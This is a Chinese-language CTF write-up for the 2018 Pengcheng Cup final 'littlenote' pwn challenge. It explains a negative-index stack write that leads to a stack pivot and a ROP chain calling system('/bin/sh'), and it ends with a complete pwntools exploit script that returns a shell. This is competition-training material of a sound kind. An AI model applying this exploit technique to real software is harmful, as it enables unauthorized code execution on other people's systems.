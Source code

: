 ```yaml
---
title: 鹏城杯 2018 决赛 day2 littlenote writeup
date: 2018-12-10 21:31:44
tags: [pwn, ctf, "鹏城杯", writeup]
---
```

在经历了第一天宕机5小时后，第二天出现了patch交不上去的状况。导致莫名其妙丢了一千多分，不然前二十还是有的。下面是第二天littlenote题目的writeup
<!--- more --->
## 题目分析
主要漏洞在触发`hacksys`函数，进入`hacker`函数，逻辑出现bug
```
.text:00000000004009A1                 mov     rax, qword ptr [rbp+var_74+4]
.text:00000000004009A5                 cmp     rax, 9
.text:00000000004009A9                 jle     short loc_4009B5
.text:00000000004009AB                 mov     edi, 0
.text:00000000004009B0                 call    _exit
```
这里只验证了输入不能超过9，但是负数没有进行验证，所以可以用复数来对栈进行任意地址写。

根据逻辑
```
mov     [rbp+rax*8-0x60], rdx
```
让rax（第一次读入的id）= -0x8000000000000000 + (0x60 / 8) 即可写到rbp
然后利用
```
leave
retn
```
指令进行栈迁移和rop。
## Solution
这题的难点在于没有leak点（我没找到）。所以只能利用没开PIE的特点，把`/bin/sh`写到bss段上。这里我们利用这样的片段来实现我们的目的
```
.text:0000000000400CFC                 lea     rax, [rbp-0x20]
.text:0000000000400D00                 mov     rsi, rax
.text:0000000000400D03                 mov     edi, offset a9s ; "%9s"
.text:0000000000400D08                 mov     eax, 0
.text:0000000000400D0D                 call    ___isoc99_scanf
```
这里就要提到神奇的`lea`指令了，有兴趣的同学可以自己去试试，通过这一条指令我们就能把`/bin/sh`写到bss段的开头。
接下来就简单了，由于这个片段的下面又是hacker函数，所以可以进行第二段rop。栈的布局如下

第一阶段：
* `0x602110` 0x6020e0 + 0x20
* `0x400cfc` 返回地址
* `0x400fcf` 凑数的
* `0x0000000900000000` 终止这次读入，强迫症
第二阶段：
* `0x400e93` pop rdi gedget
* `0x6020e0` 上面写入的`/bin/sh`的地址
* `0x40090f` 程序自带了system，跳转到即可
* `0x0000000900000000`终止这次读入，强迫症

然后就能get shell了

## 感想
这题难点在我傻逼，想得蛮好的，调的时候忘了`send("/bin/sh")`然后卡了一小时，真是蠢爆了。
ps：这题patch交不上去，白丢了800+分

## 脚本
```python
#! /usr/bin/env python2
# Author: 850
from pwn import *
import os


class BASE(object):
    def __init__(self, remote_host, remote_port, local_elf, gdb_script, _remote_libc, _local_libc):
        """
        initial basic paramaters
        """
        self.rhost = remote_host
        self.rport = remote_port
        self.elf_name = local_elf
        self.gdb_scripts = gdb_script
        self.local_libc = _local_libc
        self.remote_libc = _remote_libc
        self.elf = ELF(self.elf_name)
        context(os='linux', log_level='info')
        context(terminal=["xfce4-terminal", "-e"])

    def local_debug(self, gdb_attach):
        """
        debug with GDB
        """
        self.target = process(self.elf_name)
        if gdb_attach:
            gdb.attach(self.target, gdbscript=self.gdb_scripts)

    def remote_attack(self,):
        """
        try remote exploit
        """
        self.target = remote(self.rhost, self.rport)


    def add(self, note, keep):
        """
        not used
        """
        self.target.sendlineafter("Your choice:", "1")
        self.target.sendlineafter("Enter your note", note)
        self.target.sendlineafter("Want to keep your note?", keep)
        self.target.recvuntil("Done")

    def hacker(self, admin_name, index, age):
        self.target.sendlineafter("Your choice:", "5")
        self.target.sendlineafter("Enter administrator's name:", admin_name)
        for i in xrange(len(index)):
            self.target.sendlineafter("Enter hacker index:", str(index[i]))
            self.target.sendlineafter("Enter hacker age:", str(age[i]))

    def run(self,):
        rbp_addr = -0x8000000000000000 + 12
        self.hacker("A"*8, [rbp_addr, rbp_addr + 1, rbp_addr + 2, -3], [0x6020e0 + 0x20, 0x400cfc, 0x400cfc, 0x0000000900000000])

        pop_rdi = 0x400e93
        self.target.sendline("/bin/sh")
        self.target.sendlineafter("Enter hacker index:", str(rbp_addr + 1))
        self.target.sendlineafter("Enter hacker age:", str(pop_rdi))
        self.target.sendlineafter("Enter hacker index:", str(rbp_addr + 2))
        self.target.sendlineafter("Enter hacker age:", str(0x6020e0))
        self.target.sendlineafter("Enter hacker index:", str(rbp_addr + 3))
        self.target.sendlineafter("Enter hacker age:", str(0x40090f))
        self.target.sendlineafter("Enter hacker index:", str(-3))
        self.target.sendlineafter("Enter hacker age:", str(0x0000000900000000))

        self.target.interactive()

solve = BASE(
    remote_host="172.91.0.101",
    remote_port=8088,
    local_elf="./littlenote",
    _remote_libc="./libc.so.6",
    _local_libc="/lib64/libc.so.6",
    gdb_script="b *0x400a1a\nb *0x4009bd"
)

solve.local_debug(gdb_attach = False)
# solve.remote_attack()
solve.run()
```